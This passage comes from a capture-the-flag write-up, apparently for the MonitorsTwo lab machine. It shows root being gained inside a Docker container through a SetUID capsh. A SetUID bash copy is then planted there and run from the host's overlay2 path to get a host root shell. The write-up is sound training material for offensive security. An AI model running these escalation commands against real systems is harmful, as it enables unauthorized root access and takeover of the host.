    marcus@monitorstwo:~$ ls -l /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf 
    -rw-r--r-- 1 www-data www-data 0 May  1 11:05 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf
    

If I can get root in the container and create a SetUID binary, I can run it as
root on the host.

### root in Container

The container doesn’t have `sudo`. There are SetUID binaries:

    
    
    www-data@50bca5e748b0:/var/www$ find / -perm -4000 -ls 2>/dev/null
        42364     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
        42417     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
        42317     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
        42314     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
        42407     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
         5431     32 -rwsr-xr-x   1 root     root        30872 Oct 14  2020 /sbin/capsh
        41798     56 -rwsr-xr-x   1 root     root        55528 Jan 20  2022 /bin/mount
        41819     36 -rwsr-xr-x   1 root     root        35040 Jan 20  2022 /bin/umount
        41813     72 -rwsr-xr-x   1 root     root        71912 Jan 20  2022 /bin/su
    

`capsh` is interesting (it especially stands out because it’s in `sbin`). It
has a [GTFObins page](https://gtfobins.github.io/gtfobins/capsh/):

Running the command works:

    
    
    www-data@50bca5e748b0:/var/www$ capsh --gid=0 --uid=0 --
    root@50bca5e748b0:/var/www# 
    

### SetUID bash

Inside the container, I’ll make a copy of `bash` and set it to SetUID:

    
    
    root@50bca5e748b0:/var/www# cp /bin/bash /tmp/0xdf
    root@50bca5e748b0:/var/www# chmod 4777 /tmp/0xdf 
    

On the host, this shows up as 4777 (note the `s` where the owner `x` would
be):

    
    
    marcus@monitorstwo:~$ ls -l /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf
    -rwsrwxrwx 1 root root 1234376 May  1 11:14 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf
    

Running it (with `-p` to not drop privs) gives a root shell:

    
    
    marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf -p
    0xdf-5.1#
    

And I can read `root.txt`:

    
    
    0xdf-5.1# cat root.txt
    2d1cb34e************************
    

